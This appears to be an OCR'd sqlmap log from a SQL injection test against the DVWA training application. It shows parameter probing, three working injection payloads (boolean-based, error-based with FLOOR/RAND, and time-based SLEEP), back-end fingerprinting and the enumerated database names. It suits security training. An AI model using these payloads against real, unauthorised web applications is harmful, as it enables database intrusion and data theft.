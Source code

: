     [10:17:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
    [10:17:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
    [10:17:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
    [10:17:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
    [10:17:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [10:17:55] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    [10:17:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [10:17:55] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [10:17:55] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [10:17:55] [INFO] target URL appears to have 2 columns in query
    do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
    [10:18:01] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
    [10:18:01] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
    [10:18:01] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
    sqlmap identified the following injection point(s) with a total of 352 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=1' AND 2879=2879 AND 'FGUV'='FGUV&Submit=Submit

        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1' AND (SELECT 5082 FROM(SELECT COUNT(*),CONCAT(0x716b627071,(SELECT (ELT(5082=5082,1))),0x717a716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'VSXt'='VSXt&Submit=Submit

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 9523 FROM (SELECT(SLEEP(5)))RuBI) AND 'DZYn'='DZYn&Submit=Submit
    ---
    [10:18:03] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.24.0
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [10:18:03] [INFO] fetching database names
    [10:18:03] [INFO] retrieved: 'information_schema'
    [10:18:03] [INFO] retrieved: 'dvwa'
    available databases [2]:
    [*] dvwa
    [*] information_schema
